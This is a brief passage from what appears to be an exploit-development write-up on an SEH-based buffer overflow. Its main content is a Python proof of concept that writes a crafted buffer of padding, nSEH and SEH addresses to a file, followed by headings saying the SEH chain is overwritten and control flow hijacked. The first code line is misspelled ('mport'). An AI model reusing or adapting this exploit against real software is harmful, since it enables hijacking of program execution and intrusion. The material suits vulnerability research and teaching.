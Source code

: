 ##### Current PoC:

```term
mport struct

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x10023B71)

buffer = "A" * 456 + nseh + seh + "C" * 200

f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

##### Response of the SEH Chain IV.

![](/assets/img/Findings11/10.png)

##### The flow is hijacked.

![](/assets/img/Findings11/11.png)
